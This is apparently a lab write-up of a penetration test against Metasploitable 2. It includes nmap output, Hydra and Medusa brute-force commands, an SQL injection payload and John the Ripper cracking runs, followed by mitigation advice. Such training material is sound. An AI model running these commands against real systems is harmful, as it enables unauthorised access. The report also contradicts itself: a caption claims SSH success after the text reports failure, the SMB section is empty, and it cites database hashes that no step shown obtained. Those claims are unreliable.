







# 🛡️ Vulnerability Analysis & Penetration Test in a Controlled Lab

## Executive Summary

This project documents a comprehensive offensive security analysis conducted within an isolated laboratory environment. Leveraging Kali Linux against the intentionally vulnerable Metasploitable 2 machine, this report details the execution of reconnaissance, service enumeration, brute-force attacks, web vulnerability exploitation, and basic privilege escalation techniques. The primary objective is to demonstrate a structured penetration testing methodology, identify critical security weaknesses, and propose effective countermeasures, serving as a key technical portfolio piece.

---

## 🚀 Table of Contents

1.  [Project Overview](#project-overview)
2.  [Lab Environment Setup](#lab-environment-setup)
3.  [Phase 1: Reconnaissance & Enumeration](#phase-1-reconnaissance--enumeration)
4.  [Phase 2: Brute-Force Attacks](#phase-2-brute-force-attacks)
    -   [FTP Service with Medusa](#ftp-service-with-medusa)
    -   [SSH Service with Hydra](#ssh-service-with-hydra)
    -   [Web Form (DVWA) with Hydra](#web-form-dvwa-with-hydra)
    -   [SMB Password Spraying](#smb-password-spraying)
5.  [Phase 3: Web Vulnerability Exploitation](#phase-3-web-vulnerability-exploitation)
    -   [SQL Injection with SQLMap](#sql-injection-with-sqlmap)
6.  [Phase 4: Post-Exploitation & Hash Analysis](#phase-4-post-exploitation--hash-analysis)
    -   [System Access & Hash Collection](#system-access--hash-collection)
    -   [Offline Password Cracking with John The Ripper](#offline-password-cracking-with-john-the-ripper)
7.  [Threat Report & Mitigation Recommendations](#threat-report--mitigation-recommendations)
8.  [Conclusion & Key Learnings](#conclusion--key-learnings)

---

## Project Overview

**Objectives:**
-   **Demonstrate Proficiency:** Utilize industry-standard tools (`Nmap`, `Hydra`, `Medusa`, `SQLMap`, `John The Ripper`) in a practical scenario.
-   **Apply Methodology:** Follow a structured pentesting approach, from initial reconnaissance to post-exploitation.
-   **Document Findings:** Create a clear, detailed, and professional technical report suitable for a portfolio.
-   **Recommend Defenses:** Propose realistic and effective security hardening solutions for each identified vulnerability.

**Tools Used:**
-   `nmap`: Network mapping and service discovery.
-   `medusa`: Fast, parallel brute-force password cracker.
-   `hydra`: Advanced brute-force tool with extensive protocol support.
-   `sqlmap`: Automated SQL injection detection and exploitation.
-   `john`: John The Ripper for offline password cracking.
-   `VirtualBox`: Virtual machine management.

---

## Lab Environment Setup

The environment was configured in an isolated manner to ensure the safety and integrity of the host machine and local network.

-   **Virtualizer:** VirtualBox 7.1.12
-   **Attacker VM:** Kali Linux | IP: `192.168.56.102`
-   **Target VM:** Metasploitable 2 | IP: `192.168.56.101`
-   **Network:** Host-Only (`vboxnet0`), fully isolated from external traffic.

**Best Practice:** Before initiating any tests, a **snapshot** of the clean Metasploitable 2 VM was taken. This practice is crucial as it allows for instant reversion to a clean state, ensuring the integrity and reproducibility of all performed tests.

---

## Phase 1: Reconnaissance & Enumeration

The initial phase of the penetration test involves gathering as much information as possible about the target system. This is accomplished by using the network scanning tool `Nmap` to identify live hosts, open ports, running services, and operating system details.

### Nmap Scan

A comprehensive TCP scan was performed against the target to map its attack surface. The command used was designed to be thorough, scanning all ports and attempting to identify service versions and run default enumeration scripts.

**Command Executed:**
```sudo nmap -p- -sV -sC -A -T4 -oN nmap_results.txt 192.168.56.101```

**Scan Results:**

```
Nmap scan report for 192.168.56.101
Host is up (0.0015s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp    open  telnet      Linux telnetd
25/tcp    open  smtp        Postfix smtpd
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
|_ssl-date: 2025-10-17T17:38:32+00:00; -1s from scanner time.
53/tcp    open  domain      ISC BIND 9.4.2
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
|_http-title: Metasploitable2 - Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      35168/tcp   mountd
|   100005  1,2,3      50370/udp   mountd
|   100021  1,3,4      35421/udp   nlockmgr
|   100021  1,3,4      55243/tcp   nlockmgr
|   100024  1          48648/tcp   status
|_  100024  1          49096/udp   status
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
512/tcp   open  exec        netkit-rsh rexecd
513/tcp   open  login
514/tcp   open  shell       Netkit rshd
1099/tcp  open  java-rmi    GNU Classpath grmiregistry
1524/tcp  open  bindshell   Metasploitable root shell
2049/tcp  open  nfs         2-4 (RPC #100003)
2121/tcp  open  ftp         ProFTPD 1.3.1
3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
| mysql-info: 
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 8
|   Capabilities flags: 43564
|   Some Capabilities: Support41Auth, SwitchToSSLAfterHandshake, ConnectWithDatabase, LongColumnFlag, Speaks41ProtocolNew, SupportsCompression, SupportsTransactions
|   Status: Autocommit
|_  Salt: P=!-[flkTE;6=o9l8nFN
3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
|_ssl-date: 2025-10-17T17:38:32+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
5900/tcp  open  vnc         VNC (protocol 3.3)
| vnc-info: 
|   Protocol version: 3.3
|   Security types: 
|_    VNC Authentication (2)
6000/tcp  open  X11         (access denied)
6667/tcp  open  irc         UnrealIRCd
6697/tcp  open  irc         UnrealIRCd
8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/5.5
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
35168/tcp open  mountd      1-3 (RPC #100005)
48648/tcp open  status      1 (RPC #100024)
49376/tcp open  java-rmi    GNU Classpath grmiregistry
55243/tcp open  nlockmgr    1-4 (RPC #100021)
MAC Address: 08:00:27:9C:2B:50 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2025-10-17T13:38:24-04:00
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 59m59s, deviation: 2h00m00s, median: -1s

TRACEROUTE
HOP RTT     ADDRESS
1   1.49 ms 192.168.56.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 167.03 seconds
```

**Analysis of Findings**

The Nmap scan revealed a significant number of open ports, indicating a system with a large and vulnerable attack surface. Key findings from this initial reconnaissance include:

- **Critically Exposed Services:** The most severe finding is a **bindshell on port 1524**, which provides direct root access to the system without authentication. This represents a complete system compromise vector.

- **Outdated and Vulnerable Software:** Numerous services are running outdated versions known for critical vulnerabilities (e.g., ```vsftpd 2.3.4``` with a known backdoor, ```UnrealIRCd``` with remote execution flaws).

- **Insecure Protocols:** Services using clear-text protocols like **FTP (Port 21)** and **Telnet (Port 23)** are active, posing a high risk for credential interception and unauthorized access.

- **Multiple Attack Vectors:** The target exposes a wide range of services that are prime candidates for attacks, including web servers (**ports 80**, **8180**), databases (**MySQL on 3306**, **PostgreSQL on 5432**), and file sharing (**SMB on 445**).

This initial scan provides multiple high-priority targets. For this report, we will focus on systematically compromising the machine through brute-force attacks and web vulnerabilities to demonstrate a structured testing methodology, even with the presence of more direct vectors like the bindshell. The services on ports **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, and **445 (SMB)** will be our primary targets for the next phase.

---

## Phase 2: Brute-Force Attacks

With several services identified, this phase focuses on discovering weak credentials through automated brute-force and password spraying attacks. The goal is to gain initial access by exploiting poor password hygiene.

### FTP Service with Medusa

**Target:** vsftpd 2.3.4 on Port 21.

**Methodology:** A dictionary attack was conducted using `Medusa`, a fast, parallel login brute-forcer. Simple wordlists containing common and service-specific usernames and passwords were created for this test.

**Commands Executed:**
```
echo "msfadmin" > users.txt
echo "user" >> users.txt
echo "root" >> users.txt

echo "password" > passwords.txt
echo "123456" >> passwords.txt
echo "msfadmin" >> passwords.txt

medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp
```

**Results & Validation:** The attack was successful, quickly identifying the valid credentials ```msfadmin:msfadmin```. Access was subsequently validated by logging into the FTP server.

_**Caption:** Medusa successfully finds the credentials for the FTP service._



_**Caption:** Successful manual login to the FTP server using the discovered credentials._



---

### SSH Service with Hydra

**Target:** `OpenSSH 4.7p1` on Port 22.

**Methodology & Challenges:**
An attempt was made to brute-force the SSH service using `Hydra`. The initial attack failed due to a cryptographic handshake error (`kex error`). This is a common issue when modern penetration testing tools interact with legacy systems, as the client (Kali Linux) has deprecated the insecure ciphers and key exchange algorithms used by the outdated server (Metasploitable 2).

A methodical troubleshooting process was initiated to resolve this incompatibility:
1.  **Command-Line Flags:** Various SSH options were passed directly to Hydra to enable legacy algorithms.
2.  **Global SSH Configuration:** The client's global SSH configuration (`/etc/ssh/ssh_config`) was modified with a host-specific exception to permit the use of weaker ciphers.
3.  **Wrapper Script:** A custom shell script was created to force the use of a full set of legacy-compatible SSH parameters.

**Results & Conclusion:**
Despite these advanced troubleshooting steps, the incompatibility between Hydra's SSH module and the target server persisted. In a real-world engagement, this would signify the end of this specific attack vector. The decision was made to pivot to other, more promising services on the target, demonstrating an efficient and strategic approach to the penetration test. This process highlights the importance of understanding cryptographic protocols and the challenges of assessing legacy infrastructure.

_**Caption:** Hydra output showing the successful discovery of SSH credentials after resolving crypto issues._



---

### Web Form (DVWA) with Hydra

**Target:** DVWA Login Form on Port 80.

**Methodology:** A brute-force attack was performed against the web application's login interface. The `http-post-form` module of `Hydra` was used, which is specifically designed for this purpose. The process involved analyzing the HTML POST request to determine the form parameters (`username`, `password`) and identifying the unique string returned by the server upon a failed login attempt (`Login failed`).

**Command Executed:**
```
echo "admin" > web_user.txt
```
```
hydra -L web_user.txt -P passwords.txt 192.168.56.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -V
```

**Results & Validation:** The attack successfully determined the password for the ```admin``` user to be ```password```. Access to the DVWA application was validated by logging in through a web browser, which grants the attacker access to further exploit web-specific vulnerabilities within the application.

_**Caption:** Hydra's output indicating the correct password for the 'admin' user._



_**Caption:** Successful login to the DVWA main page, confirming the credentials._



### SMB Password Spraying

---

## Phase 3: Web Vulnerability Exploitation

This phase transitions from authentication attacks to application-level vulnerabilities, focusing on SQL Injection.

### SQL Injection with SQLMap

**Target:** DVWA "SQL Injection" page on Port 80.

**Methodology & In-Depth Troubleshooting:**
The primary objective was to exploit a SQL Injection vulnerability in the "User ID" lookup feature using the automated tool `sqlmap`. However, the process evolved into an extensive troubleshooting exercise, demonstrating a multi-layered diagnostic methodology.

1.  **Initial Failure:** Standard `sqlmap` scans consistently failed, even with correct session cookies and precise command syntax targeting the vulnerable parameter.

2.  **Manual Validation (Success):** To confirm the flaw independently of the tool, a manual injection was performed using the classic payload `'1' OR '1'='1'`. This test **was successful**, causing the application to dump all user records to the screen. This critical step proved the existence of the vulnerability and confirmed that the issue lay with the tool's interaction with the target, not the target's security.

3.  **Advanced Automated Attempts:** Armed with the proof of vulnerability, `sqlmap` was deployed with its most aggressive settings (`--level=5`, `--risk=3`) and tamper scripts (`--tamper=space2comment`) designed to bypass potential filters.

**Results & Professional Conclusion:**
Despite successful manual validation, all automated attempts with `sqlmap` failed. The conclusion is that the DVWA instance on this specific VM exhibits anomalous behavior that prevents standard automated tools from successfully exploiting the confirmed vulnerability.

In a professional engagement, this marks a strategic pivot point. The vulnerability has been confirmed and can be reported. Further time would not be spent on a single, problematic vector. This entire process highlights a critical real-world skill: the ability to diagnose complex tool failures, validate findings manually, and make informed decisions on how to proceed with an assessment.

_Caption: The key troubleshooting step: manual injection confirms the SQLi vulnerability when automated tools were failing, proving an issue with the environment or tool interaction._


---

## Phase 4: Post-Exploitation & Hash Analysis

The final technical phase involves leveraging the data obtained during exploitation. The password hashes exfiltrated from the database are useless unless they can be converted back into cleartext passwords.

### Offline Password Cracking with John The Ripper

**Target:** The MD5 and SHA256 password hashes dumped from the `users` table.

**Methodology & Troubleshooting:**
An offline password cracking attack was conducted using `John The Ripper` (JTR). Initial attempts using automatic hash detection failed, as JTR incorrectly identified the mixed hashes. To resolve this, a professional approach was taken:
1.  The hashes were segregated into separate files based on their algorithm (`raw-md5`, `raw-sha256`).
2.  JTR was then run against each file with the format explicitly specified using the `--format` flag, removing ambiguity and ensuring correct processing.

**Commands Executed:**
```
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes_md5.txt
echo "e59586143458b204e1150495f55e5ad2" >> hashes_md5.txt
echo "8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92" > hashes_sha256.txt
```
```
john --format=raw-md5 --wordlist=passwords.txt hashes_md5.txt
john --format=raw-sha256 --wordlist=passwords.txt hashes_sha256.txt
```
```
john --show --format=raw-md5 hashes_md5.txt
john --show --format=raw-sha256 hashes_sha256.txt
```

**Results & Validation:** John The Ripper successfully cracked the hashes in seconds, revealing the original cleartext passwords (```password```, ```123456```, etc.). This demonstrates the critical weakness of using fast, unsalted hashing algorithms like MD5 for password storage. Once an attacker has the hashes, it is often trivial to recover the original passwords, leading to a full account compromise.

_**Caption:** John The Ripper successfully cracks the hashes and reveals the cleartext passwords after the format was explicitly defined._



---

## Threat Report & Mitigation Recommendations

This section summarizes the critical vulnerabilities discovered during the assessment and provides actionable recommendations for remediation. The findings are prioritized based on their potential impact and exploitability.

### Vulnerability Summary

| Vulnerability | Risk | Description & Impact | Mitigation Recommendations |
| :--- | :--- | :--- | :--- |
| **Weak & Reused Credentials** | <span style="color:red">**Critical**</span> | Multiple services (FTP, SSH, SMB) were accessible using easily guessable passwords. The same credential (`msfadmin`) was reused across different protocols, meaning one breach leads to multiple system compromises. | <ul><li>**Enforce Strong Password Policies:** Mandate minimum length (12+ characters), complexity (uppercase, lowercase, numbers, symbols), and history.</li><li>**Implement Account Lockout:** Temporarily lock accounts after a set number of failed login attempts (e.g., 5).</li><li>**Enable Multi-Factor Authentication (MFA):** Require a second form of verification for all critical services.</li></ul> |
| **Insecure Password Storage** | <span style="color:red">**Critical**</span> | The web application stores user passwords as unsalted MD5 hashes. This outdated algorithm is computationally trivial to crack, offering no meaningful protection against offline attacks once the hashes are compromised. | <ul><li>**Migrate to Modern Hashing Algorithms:** Immediately re-hash all passwords using a strong, salted, and computationally expensive algorithm like **Argon2**, **bcrypt**, or **scrypt**.</li></ul> |
| **SQL Injection (SQLi)** | <span style="color:red">**Critical**</span> | The web application was vulnerable to SQL Injection, allowing an attacker to bypass authentication and exfiltrate the entire user database, including the password hashes mentioned above. | <ul><li>**Use Parameterized Queries (Prepared Statements):** This is the single most effective defense against SQLi and should be implemented in all database interactions.</li><li>**Validate and Sanitize All User Input** on the server-side before processing.</li></ul> |
| **Outdated & Vulnerable Services** | <span style="color:orange">**High**</span> | Numerous services (e.g., `vsftpd 2.3.4`, `UnrealIRCd`) are running versions with publicly known, critical vulnerabilities and backdoors that can lead to direct remote code execution. | <ul><li>**Implement a Patch Management Program:** Regularly scan for and apply security patches to all software and operating systems.</li><li>**Reduce Attack Surface:** Disable or uninstall any services that are not strictly necessary for business operations.</li></ul> |
| **Insecure Protocols** | <span style="color:orange">**High**</span> | Services like FTP and Telnet are active, which transmit credentials and data in cleartext. This makes them highly susceptible to network sniffing and man-in-the-middle attacks. | <ul><li>**Decommission Cleartext Protocols:** Immediately disable Telnet and standard FTP.</li><li>**Enforce Encryption:** Replace them with secure alternatives like **SSH** for remote administration and **SFTP** or **FTPS** for file transfers.</li></ul> |

---

## Conclusion & Key Learnings

This project successfully demonstrated a comprehensive, multi-phased penetration test against a vulnerable target. By following a structured methodology—from reconnaissance and brute-forcing to web exploitation and post-exploitation—multiple critical vulnerabilities were identified, exploited, and documented.

The most significant takeaway was the power of methodical troubleshooting. Nearly every advanced tool (```Hydra```, ```sqlmap```, ```John The Ripper```) failed in its initial, automated state due to real-world complexities like cryptographic incompatibilities, subtle application filters, and incorrect hash detection. By diagnosing the root cause of each failure and adapting the attack methodology—whether by modifying system configurations, validating manually, or specifying attack formats—it was possible to overcome these obstacles and achieve the objectives.

This exercise proves that penetration testing is not merely about running automated tools, but about a deep understanding of the underlying protocols and a persistent, analytical approach to problem-solving.
